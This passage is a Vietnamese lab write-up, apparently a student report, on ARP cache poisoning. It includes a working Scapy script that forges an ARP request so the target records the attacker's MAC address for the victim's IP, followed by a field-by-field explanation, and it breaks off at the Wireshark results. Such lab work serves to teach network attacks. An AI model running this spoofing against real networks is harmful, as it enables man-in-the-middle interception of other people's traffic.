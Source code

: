 Host B:
![](https://i.imgur.com/j4A0l4D.png)

Sau khi đã tạo ARP table, chúng ta sẽ code và chạy đoạn mã sau để tạo 1 ARP request giả gửi từ M tới A nhằm cập nhật giá trị MAC address của Host B trong ARP table của A:

```python=
#!/usr/bin/env python3
from scapy.all import *

attackerMAC = "02:42:0a:09:00:69"
targetMAC = "02:42:0a:09:00:05"
targetIP = "10.9.0.5"
victimIP = "10.9.0.6"

eth = Ether()
arp = ARP()

eth.src = attackerMAC 
eth.dst = targetMAC

arp.op = 1 #op = 1 for arp request, op = 2 for arp reply
arp.psrc = victimIP
arp.hwsrc = attackerMAC
arp.pdst = targetIP

packet = eth/arp

sendp(packet)

```

Đoạn code trên sẽ tạo 2 header Ethernet và ARP, tiếp theo tiến hành gán các trường cần thiết, cuối cùng là ghép gói và gửi đi:

- **eth.src**: MAC address của attacker mà ta muốn inject vào ARP cache của target
- **eth.dst:** MAC address của target, đích đến của gói tin
- **arp.op:** 1 dành cho ARP request, 2 dành cho ARP reply
- **arp.psrc**: IP của sender (gán của victim)
- **arp.hwsrc:** MAC address của sender (gán của attacker)
- **arp.pdst:** IP của receiver (gán của target)

Phân tích đoạn code trên, chúng ta thấy IP sender được gán là  IP của Victim để attacker giả mạo Victim gửi gói tin trong khi đó MAC address của sender lại không phải của Victim mà là của attacker, điều này sẽ khiến receiver (target) cập nhật lại ARP table của mình vì lầm tưởng rằng Victim đã thay đổi MAC address. Kết quả sau khi chạy script trên attacker, xem lại ARP table của target:

![](https://i.imgur.com/GObFTbS.png)

![](https://i.imgur.com/GtWzhpm.png)

Có thể thấy rằng chúng ta đã thành công gán MAC address của attacker vào cho IP của Victim, kết quả wireshark:
